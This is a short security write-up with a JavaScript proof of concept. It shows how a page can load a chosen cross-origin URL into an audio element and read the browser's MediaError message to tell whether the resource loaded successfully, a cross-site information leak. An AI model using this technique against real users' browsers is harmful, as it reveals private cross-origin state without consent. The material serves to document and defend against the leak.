 ```javascript
// Code saved here in case it dissapear from the link
// Based on MDN MediaError example: https://mdn.github.io/dom-examples/media/mediaerror/
window.addEventListener("load", startup, false)
function displayErrorMessage(msg) {
  document.getElementById("log").innerHTML += msg
}

function startup() {
  let audioElement = document.getElementById("audio")
  // "https://mdn.github.io/dom-examples/media/mediaerror/assets/good.mp3";
  document.getElementById("startTest").addEventListener(
    "click",
    function () {
      audioElement.src = document.getElementById("testUrl").value
    },
    false
  )
  // Create the event handler
  var errHandler = function () {
    let err = this.error
    let message = err.message
    let status = ""

    // Chrome error.message when the request loads successfully: "DEMUXER_ERROR_COULD_NOT_OPEN: FFmpegDemuxer: open context failed"
    // Firefox error.message when the request loads successfully: "Failed to init decoder"
    if (
      message.indexOf("DEMUXER_ERROR_COULD_NOT_OPEN") != -1 ||
      message.indexOf("Failed to init decoder") != -1
    ) {
      status = "Success"
    } else {
      status = "Error"
    }
    displayErrorMessage(
      "<strong>Status: " +
        status +
        "</strong> (Error code:" +
        err.code +
        " / Error Message: " +
        err.message +
        ")<br>"
    )
  }
  audioElement.onerror = errHandler
}
```

The `MediaError` interface's message property uniquely identifies resources that load successfully with a distinct string. An attacker can exploit this feature by observing the message content, thereby deducing the response status of a cross-origin resource.
